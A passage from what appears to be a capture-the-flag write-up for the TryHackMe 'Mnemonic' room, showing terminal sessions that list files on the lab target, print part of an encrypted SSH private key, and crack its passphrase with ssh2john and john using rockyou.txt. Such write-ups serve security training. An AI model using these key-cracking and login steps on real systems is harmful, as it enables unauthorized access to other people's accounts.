 ```                                                                                                        
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 data-6
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 data-7
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 data-8
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 data-9
-rw-r--r--  1 root root  807 Jul 13  2020 .profile
```

```
┌──(root🌸siunam)-[~/…/thm/ctf/Mnemonic/10.10.198.208]
└─# ls -lah data-* 
[...]
data-4:
total 24K
drwxr-xr-x  4 root root 4.0K Sep 10 03:41 .
drwxr-xr-x 12 root root 4.0K Sep 10 03:41 ..
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 3
drwxr-xr-x  2 root root 4.0K Sep 10 03:41 4
-rw-r--r--  1 root root 1.8K Jul 13  2020 id_rsa
-rw-r--r--  1 root root   31 Jul 13  2020 not.txt
```

In the `data-4` directory, we found a **SSH private key** and `not.txt` text file.

```
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# cat not.txt 
james change ftp user password
```

```
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,01762A15A5B935E96A1CF34704C79AC3

pSxCqzRmFf4dcfdkVay0+fN88/GXwl3LXOS1WQrRV26wqXTE1+EaL5LrRtET8mPM
[...]
```

Since we knew one of the SSH usernames is `james`, so we can use this private SSH key to login as him.

```
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# chmod 600 id_rsa        
                                                                                                                    
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# ssh -i id_rsa james@$RHOSTS -p 1337
Enter passphrase for key 'id_rsa': 
james@10.10.198.208's password: 
```

Again, we also need to crack the private key's **passphrase** via `ssh2john` and `john`:

```
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# ssh2john id_rsa > james_id_rsa.hash 
                                                                                                                    
┌──(root🌸siunam)-[~/…/ctf/Mnemonic/10.10.198.208/data-4]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt james_id_rsa.hash         
[...]
{Redacted}         (id_rsa)     
```
